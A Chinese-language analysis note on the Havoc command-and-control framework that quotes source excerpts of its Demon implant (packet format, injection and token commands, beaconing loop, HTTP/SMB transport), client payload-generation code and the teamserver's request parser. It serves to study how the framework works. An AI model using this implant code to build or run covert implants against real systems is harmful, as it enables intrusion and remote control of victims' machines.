


# Implant分析

分三层 具体协议层、协议抽象层、使用协议的包层。

由于是使用的Http(s)协议，在发送后可以立马获取下一个任务(Respond)

### 包格式

```c
     Header (if specified):
        [ SIZE         ] 4 bytes
        [ Magic Value  ] 4 bytes
        [ Agent ID     ] 4 bytes
        [ COMMAND ID   ] 4 bytes
        [ Request ID   ] 4 bytes

     MetaData:
        [ AES KEY      ] 32 bytes
        [ AES IV       ] 16 bytes
        [ Magic Value  ] 4 bytes
        [ Demon ID     ] 4 bytes
        [ Host Name    ] size + bytes
        [ User Name    ] size + bytes
        [ Domain       ] size + bytes
        [ IP Address   ] 16 bytes?
        [ Process Name ] size + bytes
        [ Process ID   ] 4 bytes
        [ Parent  PID  ] 4 bytes
        [ Process Arch ] 4 bytes
        [ Elevated     ] 4 bytes
        [ Base Address ] 8 bytes
        [ OS Info      ] ( 5 * 4 ) bytes
        [ OS Arch      ] 4 bytes
        [ SleepDelay   ] 4 bytes
        [ SleepJitter  ] 4 bytes
        [ Killdate     ] 8 bytes
        [ WorkingHours ] 4 bytes
        ..... more
```

```c
typedef struct _PACKAGE {
    UINT32  RequestID;
    UINT32  CommandID;
    PVOID   Buffer;
    SIZE_T  Length;
    BOOL    Encrypt;
    BOOL    Destroy; /* destroy this package after Transmit */
    BOOL    Included;

    struct  _PACKAGE* Next;
} PACKAGE, *PPACKAGE;
```

### 支持的命令

```c
SEC_DATA DEMON_COMMAND DemonCommands[] = {
        { .ID = DEMON_COMMAND_SLEEP,                    .Function = CommandSleep                    },
        { .ID = DEMON_COMMAND_CHECKIN,                  .Function = CommandCheckin                  },
        { .ID = DEMON_COMMAND_JOB,                      .Function = CommandJob                      },
        { .ID = DEMON_COMMAND_PROC,                     .Function = CommandProc                     },
        { .ID = DEMON_COMMAND_PROC_LIST,                .Function = CommandProcList                 },
        { .ID = DEMON_COMMAND_FS,                       .Function = CommandFS                       },
        { .ID = DEMON_COMMAND_INLINE_EXECUTE,           .Function = CommandInlineExecute            },
        { .ID = DEMON_COMMAND_ASSEMBLY_INLINE_EXECUTE,  .Function = CommandAssemblyInlineExecute    },
        { .ID = DEMON_COMMAND_ASSEMBLY_VERSIONS,        .Function = CommandAssemblyListVersion      },
        { .ID = DEMON_COMMAND_CONFIG,                   .Function = CommandConfig                   },
        { .ID = DEMON_COMMAND_SCREENSHOT,               .Function = CommandScreenshot               },
        { .ID = DEMON_COMMAND_PIVOT,                    .Function = CommandPivot                    },
        { .ID = DEMON_COMMAND_NET,                      .Function = CommandNet                      },
        { .ID = DEMON_COMMAND_INJECT_DLL,               .Function = CommandInjectDLL                },
        { .ID = DEMON_COMMAND_INJECT_SHELLCODE,         .Function = CommandInjectShellcode          },
        { .ID = DEMON_COMMAND_SPAWN_DLL,                .Function = CommandSpawnDLL                 },
        { .ID = DEMON_COMMAND_TOKEN,                    .Function = CommandToken                    },
        { .ID = DEMON_COMMAND_TRANSFER,                 .Function = CommandTransfer                 },
        { .ID = DEMON_COMMAND_SOCKET,                   .Function = CommandSocket                   },
        { .ID = DEMON_COMMAND_KERBEROS,                 .Function = CommandKerberos                 },
        { .ID = DEMON_COMMAND_MEM_FILE,                 .Function = CommandMemFile                  },
        { .ID = DEMON_EXIT,                             .Function = CommandExit                     },
```

### Havoc支持的协议



### 初始化

先进行协议的初始化，然后进行数据传输,接受来自服务器的任务

```c
/* Main demon routine:
 *
 * 1. Connect to listener
 * 2. Go into tasking routine:
 *      A. Sleep Obfuscation.
 *      B. Request for the task queue
 *      C. Parse Task
 *      D. Execute Task (if it's not DEMON_COMMAND_NO_JOB)
 *      E. Goto C (we do this til there is nothing left)
 *      F. Goto A (we have nothing else to execute then lets sleep and after waking up request for more)
 * 3. Sleep Obfuscation. After that lets try to connect to the listener again
 */
_Noreturn
VOID DemonRoutine()
{
    /* the main loop */
    for ( ;; )
    {
        /* if we aren't connected then lets connect to our host */
        if ( ! Instance.Session.Connected )
        {
            /* Connect to our listener */
            if ( TransportInit() ) //发送计算机信息数据
            {

#ifdef TRANSPORT_HTTP
                /* reset the failure counter since we managed to connect to it. */
                Instance.Config.Transport.Host->Failures = 0;
#endif
            }
        }

        if ( Instance.Session.Connected )
        {
            /* Enter tasking routine */
            CommandDispatcher();//命令执行
        }

        /* Sleep for a while (with encryption if specified) */
        SleepObf();
    }
}
```

### 协议

根据编译时定义的宏，编译相应的协议，其连接建立过程是在特定的Send函数中完成的，如（HttpSend）

抽象过程：TransportHttp.c是具体协议的实现，Transport.c是协议的抽象

eg：

TransportSend 函数调用 HttpSend

```c
#include <Demon.h>

#include <Common/Macros.h>

#include <Core/Package.h>
#include <Core/Transport.h>
#include <Core/MiniStd.h>
#include <Core/TransportHttp.h>
#include <Core/TransportSmb.h>

#include <Crypt/AesCrypt.h>

BOOL TransportInit( )
{
    PUTS_DONT_SEND( "Connecting to listener" )
    PVOID  Data    = NULL;
    SIZE_T Size    = 0;
    BOOL   Success = FALSE;

    /* Sends to our connection (direct/pivot) */
#ifdef TRANSPORT_HTTP
    if ( PackageTransmitNow( Instance.MetaData, &Data, &Size ) ) //发送计算机信息数据
    {
        AESCTX AesCtx = { 0 };

        /* Decrypt what we got */
        AesInit( &AesCtx, Instance.Config.AES.Key, Instance.Config.AES.IV );
        AesXCryptBuffer( &AesCtx, Data, Size );

        if ( Data )
        {
            if ( ( UINT32 ) Instance.Session.AgentID == ( UINT32 ) DEREF( Data ) )
            {
                Instance.Session.Connected = TRUE;
                Success = TRUE;
            }
        }
    }
#endif

#ifdef TRANSPORT_SMB
    if ( PackageTransmitNow( Instance.MetaData, NULL, NULL ) == TRUE )
    {
        Instance.Session.Connected = TRUE;
        Success = TRUE;
    }
#endif

    return Success;
}

BOOL TransportSend( LPVOID Data, SIZE_T Size, PVOID* RecvData, PSIZE_T RecvSize )
{
    BUFFER Send = { 0 };
    BUFFER Resp = { 0 };

    Send.Buffer = Data;
    Send.Length = Size;

#ifdef TRANSPORT_HTTP

    if ( HttpSend( &Send, &Resp ) ) //具体协议实现
    {
        if ( RecvData )
            *RecvData = Resp.Buffer;

        if ( RecvSize )
            *RecvSize = Resp.Length;

        return TRUE;
    }

#endif

#ifdef TRANSPORT_SMB

    if ( SmbSend( &Send ) )
    {
        return TRUE;
    }

#endif

    return FALSE;
}

#ifdef TRANSPORT_SMB

BOOL SMBGetJob( PVOID* RecvData, PSIZE_T RecvSize )
{
    BUFFER Resp = { 0 };

    if ( RecvData )
        *RecvData = NULL;

    if ( RecvSize )
        *RecvSize = 0;

    if ( SmbRecv( &Resp ) )
    {
        if ( RecvData )
            *RecvData = Resp.Buffer;

        if ( RecvSize )
            *RecvSize = Resp.Length;

        return TRUE;
    }

    return FALSE;
}

#endif

```

### 包

协议之上的抽象是包（Package.c），数据加解密也在该层完成。

```c
#ifndef CALLBACK_PACKAGE_H
#define CALLBACK_PACKAGE_H

#include <Core/Command.h>

#define DEMON_MAX_REQUEST_LENGTH 0x300000 // 3 MiB

typedef struct _PACKAGE {
    UINT32  RequestID;
    UINT32  CommandID;
    PVOID   Buffer;
    SIZE_T  Length;
    BOOL    Encrypt;
    BOOL    Destroy; /* destroy this package after Transmit */
    BOOL    Included;

    struct  _PACKAGE* Next;
} PACKAGE, *PPACKAGE;

/* Package generator */
PPACKAGE PackageCreate( UINT32 CommandID );
PPACKAGE PackageCreateWithMetaData( UINT32 CommandID );
PPACKAGE PackageCreateWithRequestID( UINT32 CommandID, UINT32 RequestID );

/* PackageAddInt32
 * package => pointer to package response struct
 * dataInt => unsigned 32-bit integer data to add to the response
 * Description: Add unsigned 32-bit integer to the response buffer
 */
VOID PackageAddInt32(
    PPACKAGE package,
    UINT32 iData
);

VOID PackageAddInt64(
    PPACKAGE Package,
    UINT64 dataInt
);

VOID PackageAddPtr(
    PPACKAGE Package,
    PVOID pointer
);

// PackageAddBytes
VOID PackageAddBytes(
    PPACKAGE package,
    PBYTE data,
    SIZE_T dataSize
);

VOID PackageAddString(
    PPACKAGE package,
    PCHAR data
);

VOID PackageAddWString(
    PPACKAGE package,
    PWCHAR data
);

// PackageAddBytes
VOID PackageAddPad(
    PPACKAGE package,
    PCHAR data,
    SIZE_T dataSize
);

// PackageDestroy
VOID PackageDestroy(
    PPACKAGE package
);

// used to send the demon's metadata(收集到的系统信息，仅仅在连接初始化时使用)
// PackageTransmit
BOOL PackageTransmitNow(
    PPACKAGE Package,
    PVOID*   Response,
    PSIZE_T  Size
);

// don't transmit right away, simply store the package. Will be sent when PackageTransmitAll is called
// PackageQueue
VOID PackageTransmit(
    IN PPACKAGE Package
);

// PackageQueue
//transmit all stored packages in a single request
BOOL PackageTransmitAll(
    PVOID*   Response,
    PSIZE_T  Size
);

VOID PackageTransmitError(
    UINT32 CommandID,
    UINT32 ErrorCode
);

#define PACKAGE_ERROR_WIN32         PackageTransmitError( CALLBACK_ERROR_WIN32, NtGetLastError() );
#define PACKAGE_ERROR_NTSTATUS( s ) PackageTransmitError( CALLBACK_ERROR_WIN32, Instance.Win32.RtlNtStatusToDosError( s ) );

#endif
```

PackageTransmitAll函数中调用 协议层的函数 （TransportSend）

### implant生成

由客户端将配置信息与用户选择的Listenner发往服务器，服务器编译产生

```c++
void Payload::buttonGenerate()
{
    ...................................................
    auto Body = Util::Packager::Body_t {
            .SubEvent = Util::Packager::Gate::Stageless,
            .Info = {
                { "AgentType", this->ComboAgentType->currentText().toStdString() },
                { "Listener",  this->ComboListener->currentText().toStdString() },
                { "Arch",      this->ComboArch->currentText().toStdString() },
                { "Format",    this->ComboFormat->currentText().toStdString() },
                { "Config",    Config },
            },
    };

    Package->Head = Head;
    Package->Body = Body;

    HavocX::Connector->SendPackage( Package );
}

auto Payload::ReceivedImplantAndSave( QString FileName, QByteArray ImplantArray ) -> void
{
    ......................................................
}
```

服务端中的builder.go完成特定的implant生成。并发回客户端。

# Client



负责界面展示，主要与Teamserver通过使用Json格式的数据进行通信。

发送命令的代码为，json传输：

```c
auto CommandExecute::ProcModule( QString TaskID, int SubCommand, QString Args ) -> void
{
    auto Body = Util::Packager::Body_t {
            .SubEvent = Util::Packager::Session::SendCommand,
            .Info = {
                { "TaskID",      TaskID.toStdString() },
                { "CommandLine", DemonCommandInstance->CommandInputList[ TaskID ].toStdString() },
                { "DemonID",     this->DemonCommandInstance->DemonConsole->SessionInfo.Name.toStdString() },
                { "CommandID",   to_string( static_cast<int>( Commands::PROC ) ).c_str() },

                { "ProcCommand", to_string( SubCommand ).c_str() },
                { "Args",        Args.toStdString() },
            }
    };

    NewPackageCommand( this->DemonCommandInstance->Teamserver, Body );
}
```

# Teamserver

Teamserver与Client的通信处理函数为 DispatchEvent。

Teamserver与Implant的通信处理函数为 parseAgentRequest。

```go
func parseAgentRequest(Teamserver agent.TeamServer, Body []byte, ExternalIP string) (bytes.Buffer, bool) {

	var (
		Header   agent.Header
		Response bytes.Buffer
		err      error
	)

	Header, err = agent.ParseHeader(Body)
	if err != nil {
		logger.Debug("[Error] Header: " + err.Error())
		return Response, false
	}

	if Header.Data.Length() < 4 {
		return Response, false
	}

	// handle this demon connection if the magic value matches
	if Header.MagicValue == agent.DEMON_MAGIC_VALUE {
		return handleDemonAgent(Teamserver, Header, ExternalIP)//关键函数
	}

	// If it's not a Demon request then try to see if it's a 3rd party agent.
	return handleServiceAgent(Teamserver, Header, ExternalIP)
}
```

先判断Http Body中的MagicValue是否为指定的值，如果为指定的值，则调用handleDemonAgent函数。

### handleDemonAgent（关键）

- 对于第一次连接的（Command == agent.DEMON_INIT）（未注册）agent（在agent的代码中为TransportInit函数），go代码中调用ParseDemonRegisterRequest函数进行agent注册，并返回Agent ID，agent代码中判断网络包中读取的agent ID 与自己是否相等，进而判断注册是否成功

- 对于注册了的agent但是Command == agent.DEMON_INIT，则判断为重连接。

- Command != agent.COMMAND_GET_JOB ：agent返回任务结果

- Command == agent.COMMAND_GET_JOB ：agent 获取任务

# 资料

https://blog.csdn.net/m0_51357657/article/details/131830471